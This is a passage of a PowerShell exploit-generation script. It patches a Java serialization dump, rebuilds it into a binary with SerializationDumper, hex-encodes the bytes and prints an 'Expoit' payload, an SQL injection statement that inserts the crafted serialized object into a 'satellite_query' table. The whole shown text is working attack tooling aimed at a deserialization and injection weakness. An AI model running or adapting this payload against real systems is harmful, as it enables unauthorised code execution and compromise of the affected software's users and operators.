 ```powershell
$charArray = $string.ToCharArray()
Foreach ($element in $charArray) {
    $hex = $hex + [System.String]::Format("{0:X}", [System.Convert]::ToUInt32($element))
    }

$newLength =  "                Length - $($string.Length) - 0x00 $($string.Length.ToString('X'))"
$newValue = "                Value - $string - 0x$hex"

# update the values
if ($isQuery) {
    $readableDump[43] = "            (boolean)true - 0x01"
    }

if ($isUpdate) {
    $readableDump[45] = "            (boolean)true - 0x01"
    }

$readableDump[50] = $newLength
$readableDump[51] = $newValue

$filePathReadableDumpTxt = "$env:TEMP\$(New-Guid).txt"
$filePathRebuildBin = "$env:TEMP\$(New-Guid).bin"

$readableDump | Out-File -FilePath $filePathReadableDumpTxt

#remove the first blank line from the file
(Get-Content $filePathReadableDumpTxt | Select-Object -Skip 1) | Set-Content $filePathReadableDumpTxt
#endregion

#region build the new binary file
$null = java -jar "$serializationDumperLocalPath" -b "$filePathReadableDumpTxt" "$filePathRebuildBin"
#endregion

#region convert the bin file into an exploit
# Read the content of the file as a byte array
$fileBytes = Get-Content -Path $filePathRebuildBin -Encoding Byte

# Convert the byte array to a hex string
$hexString = $fileBytes | ForEach-Object { $_.ToString("X2") }

$trueString = ""
foreach ($element in $hexString) {
    $trueString += $element
}

Write-Output "Expoit:"
Write-Output "; insert into satellite_query (object) values (X'$trueString')"
#endregion

#region cleanup
Remove-Item -Path $filePathReadableDumpTxt
Remove-Item -Path $filePathRebuildBin
Remove-Item -Path $serializationDumperLocalPath
#endregion
```
